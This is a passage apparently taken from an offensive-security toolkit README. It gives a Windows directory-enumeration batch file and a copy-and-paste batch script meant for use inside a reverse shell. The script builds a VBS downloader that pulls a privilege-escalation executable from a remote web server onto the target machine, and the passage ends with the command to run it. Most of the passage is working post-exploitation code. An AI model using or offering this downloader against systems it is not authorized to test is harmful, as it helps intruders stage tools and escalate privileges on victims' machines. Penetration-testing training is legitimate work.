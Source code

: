   ```bat
  dir "C:\"
  timeout 1
  dir "C:\Program Files\" >> report.txt
  timeout 1
  dir "C:\Program Files (x86)\"
  timeout 1
  dir "C:\Users\"
  timeout 1
  dir "C:\Users\Public\"
  timeout 1
  echo REPORT COMPLETE!
  ```

##### CopyAndPasteFileDownloader.bat

Windows file transfer script that can be pasted to the command line. File transfers to a Windows machine can be tricky without a Meterpreter shell. The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line)

  ```bat
  echo Set args = Wscript.Arguments  > webdl.vbs
  timeout 1
  echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
  timeout 1
  echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
  timeout 1
  echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
  timeout 1
  echo xHttp.Open "GET", Url, False  >> webdl.vbs
  timeout 1
  echo xHttp.Send  >> webdl.vbs
  timeout 1
  echo with bStrm      >> webdl.vbs
  timeout 1
  echo 	.type = 1 '      >> webdl.vbs
  timeout 1
  echo 	.open      >> webdl.vbs
  timeout 1
  echo 	.write xHttp.responseBody      >> webdl.vbs
  timeout 1
  echo 	.savetofile "C:\users\public\windows-privesc-check2.exe", 2 '  >> webdl.vbs
  timeout 1
  echo end with >> webdl.vbs
  timeout 1
  echo
  ```

The file can be run using the following syntax: `C:\temp\cscript.exe webdl.vbs`

##### windows_recon.bat

An uploadable batch file for performing basic windows enumeration.
